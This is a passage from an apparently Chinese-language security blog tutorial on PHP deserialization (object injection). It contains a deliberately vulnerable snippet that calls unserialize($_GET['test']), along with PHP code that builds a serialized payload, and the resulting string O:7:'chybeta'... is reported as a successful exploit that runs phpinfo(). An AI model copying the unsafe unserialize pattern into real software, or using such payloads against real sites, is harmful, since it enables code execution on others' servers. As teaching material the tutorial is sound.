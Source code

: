 ```php

unserialize($_GET['test']);

?>
```

本意上，new一个新的chybeta对象后，调用\_\_construct\(\)，其中又new了ph0en1x对象。在结束后会调用\_\_destruct\(\)，其中会调用action\(\)，从而输出 ph0en1x。

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170617/6.jpg?raw=true)

下面是利用过程。构造序列化。

```text
<?php
class chybeta {
    var $test;

    function __construct() {
        $this->test = new ph0en2x();
    }

}
class ph0en2x {
    var $test2 = "phpinfo();";

}
echo serialize(new chybeta());
?>
```

得到：

```text
O:7:"chybeta":1:{s:4:"test";O:7:"ph0en2x":1:{s:5:"test2";s:10:"phpinfo();";}}
```

传给index.php的test参数，利用成功：

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170617/7.jpg?raw=true)

